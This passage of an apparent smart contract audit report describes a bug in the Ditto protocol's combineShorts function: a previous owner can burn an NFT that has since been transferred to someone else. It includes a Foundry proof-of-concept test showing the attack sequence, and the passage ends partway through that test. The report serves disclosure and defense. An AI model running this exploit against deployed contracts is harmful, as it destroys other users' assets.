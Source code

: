 The attacker can then call the `combineShorts` function with the shortId which will lead to burning of this NFT.
```solidity
    function combineShorts(address asset, uint8[] memory ids)
        external
        isNotFrozen(asset)
        nonReentrant
        onlyValidShortRecord(asset, msg.sender, ids[0])
    {
           // more code

           // @audit burns the tokenId nft even if it was previously transferred

            if (currentShort.tokenId != 0) {
                //@dev First short needs to have NFT so there isn't a need to burn and re-mint
                if (firstShort.tokenId == 0) {
                    revert Errors.FirstShortMustBeNFT();
                }


                LibShortRecord.burnNFT(currentShort.tokenId);
            }
``` 
https://github.com/Cyfrin/2023-09-ditto/blob/a93b4276420a092913f43169a353a6198d3c21b9/contracts/facets/ShortRecordFacet.sol#L117-L169

### POC Test
```diff
diff --git a/test/ERC721Facet.t.sol b/test/ERC721Facet.t.sol
index b4cf84b..8a66110 100644
--- a/test/ERC721Facet.t.sol
+++ b/test/ERC721Facet.t.sol
@@ -453,6 +453,37 @@ contract ERC721Test is OBFixture {
         diamond.ownerOf(2);
     }
 
+    function test_PrevOwnerCanDeleteNFTByCombiningShorts() public{
+        createShortAndMintNFT();
+
+        //first half of the short order is filled
+        fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT/2, sender);
+        fundLimitShortOpt(DEFAULT_PRICE, DEFAULT_AMOUNT, sender);
+
+        //mint nft and transfer short record
+        vm.startPrank(sender);
+        diamond.mintNFT(asset, Constants.SHORT_STARTING_ID + 1);
+        diamond.safeTransferFrom(sender, address(0xBEEF), 2, "");
+        vm.stopPrank();
+
+        assertEq(diamond.ownerOf(2), address(0xBEEF));
+        assertEq(diamond.balanceOf(address(0xBEEF)), 1);
+
+        //fill the other half of the short order to activate the same short record
+        fundLimitBidOpt(DEFAULT_PRICE, DEFAULT_AMOUNT/2, sender);
+
+        vm.prank(sender);
+        combineShorts({
+            id1: Constants.SHORT_STARTING_ID,
+            id2: Constants.SHORT_STARTING_ID + 1
+        });
+
+        //nft 2 previously transferred to 0xBEEF is burned
+        vm.expectRevert(abi.encodeWithSelector(Errors.ERC721NonexistentToken.selector, 2));
+        diamond.ownerOf(2);
```